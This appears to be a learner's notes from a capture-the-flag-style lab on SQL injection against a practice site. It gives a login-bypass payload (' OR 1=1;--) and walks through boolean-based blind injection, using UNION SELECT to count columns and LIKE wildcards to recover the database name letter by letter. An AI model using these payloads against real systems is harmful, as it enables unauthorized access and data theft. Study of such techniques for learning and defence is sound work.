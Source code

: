 we aren't that interested in retrieving data from the database; We just want to get past the login. 

Login forms that are connected to a database of users that is focused on if username and password match in the table. 
- "username bob and password bob123 ?" reply: true/false

no need for enumeration, just need a true for reply

- `select * from users where username='%username%' and password='%password%' LIMIT 1;`

- to always get s true: ` ' OR 1=1;-- `

- now query is: `select * from users where username='' and password='' or 1=1;`

- username: 'OR 1=1;-- 


### Boolean injection 

Boolean based SQL Injection refers to the response we receive back from our injection attempts which could be a true/false

in fact, with just these two responses, it's possible to enumerate a whole database structure and contents.

`website.thm/checkuser?username=admin` website checks content {'taken':true} for username in signup form, if taken then username admin is registered

- `select * from users where username='%username%' limit 1;`


- base = `website.thm/checkuser?username=`

- base + `admin123` returns {'taken': false}

try to get database to confirm queries

- base + `admin123' union select 1;-- `   returns {'taken': false}
- base + `admin123' union select 1,2;-- `   returns {'taken': false}
- base + `admin123' union select 1,2,3;-- `   returns {'taken': true}

we now know there are 3 columns

next, find out the database name using `database()`

- base + `admin123' union select 1,2,3 where database() like '%';-- `   returns {'taken': true}

wildcard is '%' 
- 'a%' checks if database name starts with a 

- base + `admin123' union select 1,2,3 where database() like 's%';-- `   

returns {'taken': true}

now iterate over the letters finding the true response

```
'sq%';-- 
'sql%';-- 
'sqli%';-- 
'sqli_%';-- 
'sqli_t%';-- 
'sqli_th%';-- 
'sqli_thr%';-- 
'sqli_thre%';-- 
'sqli_three%';--   database name

```
